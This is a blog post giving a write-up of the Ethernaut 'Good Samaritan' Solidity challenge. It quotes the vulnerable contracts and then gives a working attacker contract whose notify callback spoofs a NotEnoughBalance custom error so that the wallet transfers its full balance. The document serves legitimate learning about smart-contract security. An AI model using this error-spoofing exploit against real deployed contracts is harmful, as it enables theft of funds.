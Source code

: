 ```yaml
---
layout: post
title: Ethernaut - 27. Good Samaritan
date:  2022-09-16
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it. <br />
Would you be able to drain all the balance from his Wallet?<br />
Things that might help:
- [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Writeup
1. Get new instance.
2. Create a new contract. 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity >=0.8.0 <0.9.0;

    interface GoodSamaritan {
        function requestDonation() external returns(bool enoughBalance);
    }

    contract GoodSamaritanAttacker {

        error NotEnoughBalance();

        function attack(address _goodsamaritan) public {
            GoodSamaritan(_goodsamaritan).requestDonation(); 
        }

        function notify(uint256 _amount) public pure {
            if(_amount==10){
                revert NotEnoughBalance();
            }
        }
    }
    ```
3. Get `GoodSamaritan` contract address by typing `instance` in the chrome console.
    ``` javascript

    // ex. 
    instance
    // '0xa273e96Ae56e2cAb404a3221d5356Af4cdd67440'

    ```
4. Call the `attack` method in `GoodSamaritanAttacker` contract with the contract address we get above as a parameter.
5. Submit instance ξ( ✿＞◡❛)

